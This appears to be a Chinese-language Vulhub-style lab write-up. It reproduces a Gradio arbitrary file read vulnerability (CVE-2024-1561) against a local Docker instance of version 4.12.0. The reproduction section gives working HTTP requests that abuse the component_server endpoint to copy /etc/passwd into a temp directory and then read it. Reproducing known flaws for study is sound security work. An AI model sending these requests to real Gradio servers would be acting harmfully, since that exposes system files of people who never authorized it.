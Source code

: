 # Gradio 任意文件读取漏洞 (CVE-2024-1561)

Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化Web界面。

Gradio 4.13 版本以下 `component_server` 接口允许攻击者调用 `Component` 类的任意方法，如通过 `move_resource_to_block_cache` 方法将系统中的任意文件复制到临时目录，并检索查看内容。

参考链接：

+ https://github.com/gradio-app/gradio/pull/6884
+ https://nvd.nist.gov/vuln/detail/CVE-2024-1561

## 环境启动

执行如下命令启动一个由Gradio 4.12.0编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过`http://your-ip:7860`访问该应用。

## 漏洞复现

访问 `config` 接口，获取一个components的id字段，例如这里的`3`。

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101524307](1.png)

通过 `move_resource_to_block_cache` 方法，将 `/etc/passwd` 文件写入到临时目录中，Gradio将返回临时文件的路径。

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}

```

![image-20250427101900374](2.png)

通过 `file` 接口并拼接临时文件路径，即可读取文件内容。

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101951481](3.png)